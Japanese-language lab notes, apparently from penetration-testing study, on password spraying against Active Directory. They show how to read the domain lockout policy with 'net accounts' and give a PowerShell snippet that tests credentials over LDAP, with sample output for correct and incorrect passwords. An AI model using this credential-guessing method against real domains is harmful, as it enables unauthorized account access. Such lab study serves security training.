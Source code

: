   

### Low and Slow Password Guessing

カウントロックポリシーを事前に確認しパスワード攻撃をユーザ全体に行う方法

* ドメインのアカウントポリシーの確認

  ```cmd
  net accounts
  
  ----
  C:\Tools\active_directory>net accounts
  Force user logoff how long after time expires?:       Never
  Minimum password age (days):                          1
  Maximum password age (days):                          Unlimited
  Minimum password length:                              1
  Length of password history maintained:                24
  Lockout threshold:                                    Never
  Lockout duration (minutes):                           30
  Lockout observation window (minutes):                 30
  Computer role:                                        WORKSTATION
  The command completed successfully.
  ```

* powershellを利用したログイン試行

  ```powershell
  $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
    
  $PDC = ($domainObj.PdcRoleOwner).Name
  
  $SearchString = "LDAP://"
  $SearchString += $PDC + "/"
  
  $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
  
  $SearchString += $DistinguishedName
  
  New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "lab")
  ```

  * あっている場合

    ```powershell
    PS C:\Tools\active_directory> New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin",
     "lab")
    
    
    distinguishedName : {DC=corp,DC=com}
    Path              : LDAP://DC01.corp.com/DC=corp,DC=com
    ```

  * 間違っている場合

    ```powershell
    format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or password is incorrect.
    "
      + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemExce
      + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.Forma
    ```
